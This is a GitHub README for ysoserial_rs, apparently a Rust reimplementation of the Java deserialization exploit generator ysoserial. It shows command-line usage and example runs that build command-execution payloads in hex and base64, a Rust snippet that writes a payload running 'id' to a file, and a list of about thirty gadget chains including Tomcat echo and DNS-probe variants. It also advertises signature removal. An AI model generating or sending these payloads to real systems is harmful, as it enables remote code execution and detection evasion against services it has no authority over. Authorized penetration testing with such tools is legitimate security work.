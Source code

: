 # ysoserial_rs

- ysoserial的rust实现
- 去特征，比原版体积小一半

## using

```shell
ysoserial_rs 0.0.1
author: Kali-Team

USAGE:
    ysoserial [OPTIONS]

OPTIONS:
    -c, --command <COMMAND>                 Command to execute
    -f, --format <FORMAT>                   Format to Hex or Base64 [possible values: hex, base64]
    -h, --help                              Print help information
        --header_name <ECHO HEADER NAME>    Tomcat echo request header name
    -l, --list                              List all payload
    -o, --output <OUTPUT>                   Save payload to file
    -p, --payload <PAYLOAD>                 Select a payload
        --url <URL>                         URL to request DNS
    -V, --version                           Print version information

```

### format

- hex

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f hex
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e2e416e6e6f746174696f6e496e766f636174696f...
```

- base64

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -f base64
rO0ABXNyADJzdW4ucmVmbGVjdC5hbm5vdGF0aW9uLkFubm90YXRpb25JbnZvY2F0aW9uSGFuZGxlclXK9Q8Vy36lAgACTAAMbWVtYm...
```

### output

```shell
➜  ysoserial_rs git:(main) ✗ ysoserial -p cc1 -c whomai -o cc1.ser
写入文件:cc1.ser,payload大小:1395
➜  ysoserial_rs git:(main) ✗ cat cc1.ser|xxd -ps
aced00057372003273756e2e7265666c6563742e616e6e6f746174696f6e
2e416e6e6f746174696f6e496e766f636174696f6e48616e646c657255ca
...
```

## examples

```shell
cargo run --example examples
```

- 详细请看examples目录

```rust
use std::fs::File;
use std::io;
use std::io::Write;
use ysoserial_rs::get_commons_beanutils1;

fn main() -> Result<(), io::Error> {
    let mut file = File::create("commons_beanutils1.ser")?;
    file.write_all(&get_commons_beanutils1("id"))?;
    Ok(())
}
```

## 支持列表

- [x] bs1
- [x] cc1
- [x] cc2
- [x] cc3
- [x] cc4
- [x] cc5
- [x] cc6
- [x] cc7
- [x] cck1
- [x] cck2
- [x] cck3
- [x] cck4
- [x] clojure
- [x] groovy1
- [x] hibernate1
- [x] hibernate2
- [x] javassist_weld1
- [x] jboss_interceptors1
- [x] jdk7u21
- [x] jdk8u20
- [x] json1
- [x] mozilla_rhino1
- [x] mozilla_rhino2
- [x] myfaces1
- [x] rome
- [x] spring1
- [x] cck1_tomcat_echo
- [x] cck2_tomcat_echo
- [x] url_dns
- [x] c3p0
- [x] vaadin1

## 感谢

- 灵感：[Gososerial](https://github.com/EmYiQing/Gososerial)
- 开发工具：Meld，wxHexEditor，xxd